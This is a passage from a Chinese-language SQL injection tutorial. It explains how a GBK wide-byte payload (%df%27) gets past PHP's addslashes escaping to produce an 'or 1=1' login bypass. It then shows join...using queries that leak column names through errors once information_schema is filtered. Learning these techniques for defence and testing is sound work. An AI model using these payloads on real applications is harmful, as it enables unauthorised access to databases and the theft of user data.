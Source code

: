 ```sql
SET character_set_client = 'gbk';
SET character_set_results = 'gbk';
SET character_set_connection = 'gbk';
```

当输入的数据为`username=%df%27or%201=1%23&password=123`, 经过`addslashes`函数处理最终变成`username=%df%5c%27or%201=1%23&password=123`, 经过`gbk`解码得到`username=運'or 1=1#`、`password=123`, 拼接得到`SQL`语句如下, 成功跳出了`addslashes`的转义限制:

```sql
select * from users where username = '運'or 1=1#' and password='123';
```
原理如下: 
 - 在`SQL`语句在与数据库进行通信时, 会先将`SQL`语句进行对应的`character_set_client`所设置的编码进行转码, 即转变为`gbk`编码. 由于`PHP`的编码为`UTF-8`, 因此当输入的内容为`%df%27`时, 会被当做是两个字符, 经过函数`addslashes`处理变成`%df%5c%27`, 在经过客户端层`character_set_client`编码处理后变成`運`, 成功将反斜线去除, 使单引号逃逸出来. 可参考[浅析白盒审计中的字符编码及SQL注入](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html).


### 无列名注入
无列名注入一般伴随着`bypass information_schema`, 当这个表被过滤的时候, 只能使用`sys.schema_auto_increment_columns`、`sys.schema_table_statistics_with_buffer`、`mysql.innodb_table_stats`等等进行绕过, 但是这些表中一般都没有字段名, 只能获得表名, 因此当知道表明之后, 还需要进一步地使用无列名注入.

#### 列名重复(join……using)
使用条件: 需要开启报错.

```sql
select * from (select * from users a join users b)c;
select * from (select * from users a join users b using(id))c;
select * from (select * from users a join users b using(id,username))c;
```

<div align=center><img src="./images/5.png"></div>

`join……using`原理: `JOIN`子句用于基于表之间的共同字段把来自两个或多个表的行结合起来.
